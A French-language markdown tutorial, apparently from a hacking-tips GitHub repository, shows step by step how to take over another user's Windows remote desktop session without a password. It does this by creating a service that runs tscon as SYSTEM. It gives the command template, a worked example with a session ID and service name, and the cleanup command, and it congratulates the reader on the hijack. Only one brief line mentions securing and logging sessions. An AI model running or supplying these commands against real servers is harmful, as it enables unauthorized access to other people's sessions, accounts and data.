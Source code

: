 # Hijack session pc distant avec la faille tscon

# tscon
Cette commande est utilisée pour se connecter sur une autre session d'un PC distant (serveur par ex.).
Elle nécessite le nom de destination et l'ID de session pour s'exécuter.

# query user
Cette commande permet d'afficher la liste et informations de session de tous les utilisateurs s'ayant déjà connecté au serveur distant.
Utile ici pour récupérer le nom de destination et l'ID de session à hijacker.

# service (sc)
Cette commande permet de voler (hijacker) la session de n'importe quelle cible, sans mot de passe (password bypassing) :  
* **<process_name>** est le nom du service à créer (nom bidon, aucune importance, faudra juste arrêter le service avec le meme nom ensuite)  
* **<user 2_ID>** est l'**ID** (numéro d'identification) de la **session-cible**, celle à hijacker  
* **<session_name>** est le nom de **votre** session  
```
sc create <process_name> binpath= "cmd.exe /k tscon <user 2_ID> /dest:<session_name>"
```

# Exemple
Commande query user à lancer dans un terminal (cmd, powershell...) :
![query user](https://github.com/Sefiria/ConseilHack/blob/4f5599508ecff62dee4d58175405257ac78a1636/Documentation/En%20vrac/res/Hijack%20session%20pc%20distant%20annexe.png?raw=true)

Exécuter ensuite la commande du paragraphe "service" ainsi que celle pour démarrer le service, exemple ici :  
*Nous sommes dans cet exemple Titi, et souhaitons voler la session de Toto*  
* **<process_name> = hijack** (nom du service - le nom n'a pas d'importance)  
* **<user 2_ID> = 8** (ID de la session-cible)  
* **<session_name> = rdp-tcp#1** (nom de notre session actuelle)
```
sc create hijack binpath= "cmd.exe /k tscon 8 /dest:rdp-tcp#1"
net start hijack
```
**Félicitations, vous venez d'Hijacker une session distante via une faille de tscon exécuté par service sans mot de passe.**  
Comprenez alors l'importance de sécuriser, logger les sessions utilisateurs.  
**N'oubliez pas de stopper le service une fois avoir fini avec la commande *net stop <process_name>*** :
```
net stop hijack
```
